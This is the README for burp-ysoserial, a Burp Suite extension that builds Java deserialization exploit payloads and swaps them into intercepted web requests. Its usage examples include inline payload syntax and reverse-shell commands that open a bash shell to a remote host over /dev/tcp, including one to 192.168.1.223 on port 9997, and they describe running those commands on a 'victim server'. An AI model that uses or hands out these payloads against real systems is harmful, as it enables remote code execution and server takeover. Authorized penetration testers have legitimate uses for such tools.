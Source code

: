 # burp-ysoserial - with complex command in injection support

Download the jar file here: [ysoserial.jar](https://github.com/summitt/burp-ysoserial/releases)

There are 3 ways to run this extension. 

 1. Generate a payload from the YSOSERIAL Tab. You can then copy and paste it into other tabs in burp.(Not ideal)
 1. Generate a payload from the YSOSERIAL Tab. In another tab you can select the text you want to replace and right click. You have 3 options to replace.
   1. Raw - This will replace your selected text with an unencoded version of the payload. This is raw binary/hex.
   1. B64 - This payload will replace your selected text with a base64 encoded version.
   1. URLEnc - This will replace your selected text with a URL encoded and base64 encoded payload. Ideal for web type applications
 1. You can use inline commands to replace your text with a payload that contains your command. For example you can enter text in repeater like:
 
 ```$(CC1|ping -c1 8.8.8.8)```
 
 Select the above text and right click any of the Java Serialized Payload Options and it will replace your command with a payload containing that command.
 
 The first parameter before the pipe in the above statement is the verion of the exploit. You can enter any of the following:
  - CC1 or CollectionCommons1
  - CC2 or CollectionCommons2
  - GV1 or Groovy1
  - SP1 or Spring1
  
 The second parameter is obviously the OS command you wish to run.
 
## Complex Commands (i.e. pipes and I/O redirection)
Note ysoserial in this extension has been updated to accept more complicated commands that in the original. For instance commands like the following command would fail to execute on the victim server in the original ysoserial application.
 
```echo test > /tmp/text.txt```
  or
```bash -c "echo test > /tmp/text.txt"```
 
This is because to run complex commands that pipe command into other commands in java the arguments needs to be a string Array. This version of ysoserial has been modified by using a delimter of ",," to seperate your arguments to the string array.  Here is an example of running a more complicated command using this method to get a reverse shell: 
  
 ```/bin/bash,,-c,,bash -i >& /dev/tcp/X.X.X.X/9997 0>&1```
 
The above code will be split into a string array that java can run on the victim server. :) The resulting java code would look like:
```Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "bash -i >& /dev/tcp/X.X.X.X/9997 0>&1"});```

##Examples
### Example 1 - Replace selected text with a pre-generated payload
1. First Generate a payload
![Payload Generator](/Payload%20Generator.png)
2. Go to Repeater and select the text you want to replace.
3. Right Click and select a payload option.
![Payload Generator](/replace%20with%20generated.png)

### Example 2 - Use and inline command
1. In Burp Repeater replace your parameter with the following code:

```$(CC1|ping -c1 8.8.8.8)```
2. Select the above text. Right Click in repeater and select the payload type.
![Payload Generator](/inline-command.png)

### Example 3 - Complex commands 
1. In Repeater replace your parameter with the following command:

```$(CC1|/bin/bash,,-c,,bash -i >& /dev/tcp/192.168.1.223/9997 0>&1)```
2. Select it and select the payload you want to generate.
![Payload Generator](/inline%20complex%20command.png)
